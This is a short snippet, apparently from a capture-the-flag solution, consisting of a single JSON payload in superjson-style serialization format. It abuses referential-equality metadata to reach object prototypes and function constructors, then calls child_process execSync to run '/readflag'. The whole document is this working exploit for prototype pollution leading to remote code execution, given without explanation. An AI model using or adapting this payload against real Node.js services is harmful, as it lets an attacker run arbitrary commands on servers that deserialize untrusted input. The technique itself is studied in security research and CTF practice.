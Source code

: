 ```js
{
   "json":[
      [
         null,
         [
            {
               "value":"console.log(global.process.mainModule.constructor._load('child_process').execSync('/readflag').toString())"
            }
         ]
      ]
   ],
   "meta":{
      "values":{
         "2":[
            "map"
         ]
      },
      "referentialEqualities":{
         "constructor.prototype":[
            "1"
         ],
         "find.constructor":[
            "1.get"
         ],
         "push":[
            "1.set",
            "1.delete"
         ],
         "pop":[
            "1.next",
            "0.keys",
            "1.charAt"
         ],
         "2.constructor.prototype":[
            "1.__proto__",
            "0.0"
         ],
         "0.2":[
            "1.toString"
         ],
         "":[
            [
               [
                  1
               ]
            ]
         ]
      }
   }
}
```
